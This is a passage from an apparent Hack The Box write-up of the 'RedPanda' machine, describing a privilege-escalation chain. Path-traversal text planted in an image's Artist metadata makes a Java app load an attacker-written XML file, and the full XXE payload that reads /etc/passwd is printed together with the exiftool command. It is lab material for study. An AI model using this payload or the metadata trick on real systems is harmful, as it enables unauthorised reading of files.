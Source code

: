 The user `woodenk` is part of the log group and can edit the `redpanda.log` file. This means I can make `App.java` navigate to a picture of my choosing. Since I can control the metadata in my picture, `<artist name>` is now under my control. I can change the artist name to navigate to an `xml` file I wrote, which contains an XXE payload. When `App.java` opens my `xml` file, the payload will be executed and give me file read.
#### evil_creds.xml
I create an `evil_creds.xml` file on my box by downloading an `export.xml` from the `/stats` page on the website. I edit it to include an XXE payload.
```xml
┌──(kali㉿Kali)──[15:40:36]──[~/htb/Machines/RedPanda/www]
└─$ cat evil_creds.xml    
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>1</views>
    <root>&xxe;</root>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```
I download the file to `/tmp/evil_creds.xml` on the victim.
#### evil.jpg
I create an `evil.jpg` on my box and change the `Artist` metadata to `../tmp/evil` 
```bash
┌──(kali㉿Kali)──[15:27:09]──[~/htb/Machines/RedPanda/www]
└─$ exiftool -Artist="../tmp/evil" evil.jpg
    1 image files updated
```
